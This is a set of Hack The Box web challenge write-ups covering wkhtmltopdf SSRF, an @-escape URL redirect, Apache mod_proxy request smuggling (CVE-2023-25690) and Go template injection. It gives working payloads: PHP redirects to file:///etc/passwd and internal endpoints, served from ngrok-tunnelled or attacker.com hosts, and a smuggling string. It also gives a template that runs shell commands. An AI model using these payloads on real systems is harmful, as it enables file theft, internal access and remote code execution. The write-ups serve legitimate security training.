 # HTB-PDFy-Challenge
- Takes the screenshot of the page and saves it as pdf using the `wkhtmltopdf` utility which we found from the error when we supplied something like `https://google.com;` i.e. the semicolon.
So, we used `ngrok` for local server interaction and hosting a `php` server.
Make a payload file `scr.php` and put,
```
<?php
header('location:file:///etc/passwd');
?>
```
And host it with,
`php -S 0.0.0.0:8000`
- Now tunnel it publically with,
`./ngrok tcp 8000`
So, now visit the public URL we get as,
`http://URL/scr.php`
which will redirect it to read the system files i.e. `/etc/passwd` here and will take a SS and will make a pdf of it.
Link: https://github.com/wkhtmltopdf/wkhtmltopdf/issues/3570

# HTB-ProxyAsAService-Challenge
- In the source code found a misconfigured string,
```
http://{SITE_NAME}{url}
```
So, here the `SITE_NAME` variable value is `reddit.com` while the `url` value is directly getting appended which is directly controlled by us and `/` is missing which allows the popular `@` escape technique, i.e.
```
http://reddit.com@hacker.com => http://hacker.com
```
i.e. anything before `@` character, here `reddit.com` gets omitted.
- So, now we hosted a PHP server with code, `php -s 0.0.0.0:8000`
```
<?php
header('location:http://0.0.0.0:1337/debug/environment');
?>
```
Because this `debug/environment` path is only accessible through `127.0.0.1` as per the source code.
- And finally started `ngrok` for tunneling as,
`./ngrok tcp 8000`
- Now finally to access this we visited it with,
`http://94.237.62.149:59025/?url=@0.tcp.in.ngrok.io:14478/scr.php`
which redirects it to visit the internal restricted path and eventually throws us the results on the response.

# HTB-ApacheBlaze-Challenge
- Apache reverse proxy. So, if a request is received from the host `dev.apacheblaze.local`, the flag is thrown. 
- Found `mod_proxy` module being used in the apache2 configuration file.
- So, located a public exploit, `CVE-2023–25690` for HTTP Request Smuggling attack.
Link: https://github.com/dhmosfunk/CVE-2023-25690-POC
- Used the payload, 
`/api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/api/games/click_topia`

# HTB-RenderQuest-Challenge
- Went through the `main.go` source code and found SSRF i.e. it directly renders template from a supplied attacker url and executes it,
`/render?use_remote=true&page=http://attacker.com/file.txt`
- So, found a **Golang SSTI** article,
Link1: https://exploit-notes.hdks.org/exploit/web/go-ssti/
Link2: https://www.onsecurity.io/blog/go-ssti-method-research/
- So, going through the article, found that we can get RCE if a dangerous function is defined that directly executes system commands without sanitation and the source code did have one,
```
func (p RequestData) FetchServerInfo(command string) string {
	out, err := exec.Command("sh", "-c", command).Output()
	if err != nil {
		return ""
	}
	return string(out)
}   
```
- So, now we hosted a file `index.tpl` using `python3 -m http.server 3000` and tunneling it publically with `./ngrok tcp 3000` with content,
```
{{ .FetchServerInfo "cat /flag*.txt" }}
```
- Finally visited,
`/render?use_remote=true&page=http://<ngrok.com>/index.tpl`
